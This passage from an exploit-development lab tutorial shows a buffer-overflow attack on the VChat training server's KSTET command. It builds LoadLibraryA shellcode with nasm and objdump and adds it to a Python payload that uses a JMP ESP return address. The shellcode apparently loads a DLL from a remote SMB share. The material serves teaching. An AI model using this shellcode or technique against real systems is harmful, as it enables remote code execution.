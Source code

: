 	<img src="Images/I25.png" width=600>

6. Now that we have the address of `LoadLibraryA` we can insert the instructions required to make the call to this function.
	```
	mov ebx,0x76ba12a0      ; Move into EBX the address of 'LoadLibraryA'
	call ebx
	```
7. Once we have a [shellcode.asm](./SourceCode/shellcode.asm) file, we can generate the shellcode we will use in the exploit!
	1. Run nasm on the target assembly, Run: `nasm -f elf32 -o shellcode.o shellcode.asm`.
		* `nasm`: Netwide Assembler, assembles assembly into x86 machine code.
		* `-f elf32`: elf32 format.
		* `-o shellcode.o`: Shellcode file.
		* `shellcode.asm`: Input file.
	2. Extract the binary with a simple [shell script](./SourceCode/extract.sh).
		```sh
		for i in $(objdump -d shellcode.o -M intel | grep "^ " | cut -f2); do
			echo -n '\x'$i;
		done;
		echo
		```
		* `for i in`: For each value `$i` generated by the following command.
		* `objdump -d shellcode.o -M intel | grep "^ " | cut -f2`: Extracts the hex shellcode.
			* `objdump -d shellcode.o -M intel`: Dump the assembly of the object file compiled for Intel format.
			* `grep "^ "`: Extract only those lines containing assembly.
			* `cut -f2`: Extract the second field; this contains the hex representation of the instructions.
		* ` do echo -n '\x'$i; done`: Echo the hex extracted in the format `\x<HexValue>`.
		* `echo`: Print an extra line.
		* **Note**: If you create this file be sure to make it executable `chmod +x extract.sh`, then you can run it using the command `./extract.sh`.

		<img src="Images/I26.png" width=600>

#### Execution
Now we have everything we need to exploit the VChat server using the DLL sideloading technique!

1. First we need to add the shellcode we generated to the exploit program as was done for the [exploit5.py](./SourceCode/exploit5.py) example script.

	1. We add the shellcode itself to the script as shown below:
		```python
		SHELL_LIB = (
			b'\x83\xec\x64\x31\xdb\x53\x68\x2e\x64\x6c\x6c\x68\x5c\x70\x77\x6e\x68' +
			b'\x2e\x38\x5c\x58\x68\x2e\x30\x2e\x32\x68\x5c\x5c\x31\x30\x54\xbb\xa0'+
			b'\x12\xba\x76\xff\xd3'
		)
		```
	2. We modify the payload to include the shellcode next.
		```python
		PAYLOAD = (
			b'KSTET ' +
			b'\x90' * 2 +
			SHELL_LIB +
			b'A' * (66 - len(SHELL_LIB) - 2) +
			# 625011BB    FFE4                        JMP ESP
			struct.pack('<L', 0x625014E6) +
			# JMP SHORT 0xb5
			b'\xeb\xb8' +
			b'C' * (26 - 2)